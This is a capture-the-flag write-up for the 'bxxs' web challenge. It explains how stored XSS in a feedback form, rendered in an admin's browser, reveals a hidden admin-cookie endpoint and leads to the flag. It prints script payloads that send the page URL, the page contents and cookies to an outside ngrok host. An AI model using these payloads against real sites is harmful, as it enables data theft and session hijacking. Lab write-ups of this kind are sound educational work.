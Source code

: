 ```yaml
---
description: XSS leads to information leakage of hidden endpoint and authentication bypass.
---
```


# bxxs

## Problem

We've made some new epic updates to our website. Could you send us some feedback on it?

## Solution

We are given an endpoint that allows us to "Send a feedback to admin". I tried submitting URLs but these had no effect.

![](<../../.gitbook/assets/image (7).png>)

Later, I found that we could submit arbitrary HTML that would be rendered by the admin's browser. This could be verified by submitting the following and catching the HTTP request:

```markup
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/"; </script>
```

It is then trivial to obtain more information from the victim's browser.

We still don't know how exactly our submitted HTML is handled. Where is it rendered and in what context? To answer that question, I tried the following payload to get the page URL, contents and cookie.

```markup
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?url=" + escape(window.location.href); </script>
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?doc=" + escape(document.body.innerHTML); </script>
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?cookie=" + escape(document.cookie); </script>
```

`window.location.href` gives us the full URL of the browsing context, `document.body.innerHTML` gives us the page contents, and `document.cookie` gives us any cookies that could be read by JavaScript (those without the HttpOnly flag set).

From the output, it appeared that:

* The page URL is `http://0.0.0.0/Secret_admin_cookie_panel`
* Our submitted HTML was the only content present on the page.
* JavaScript could not read any cookies.

My teammate rainbowpigeon then visited the `/Secret_admin_cookie_panel` endpoint and found that this page returned a `Set-Cookie` header for a new cookie with the HttpOnly flag set. This was the "admin cookie" we needed.

![](<../../.gitbook/assets/image (5).png>)

My teammate lim\_yj found that there is a `/flag` endpoint, previously inaccessible without the appropriate cookie.

Visiting the page again with the admin cookie set gives us the flag.

![](<../../.gitbook/assets/image (6).png>)
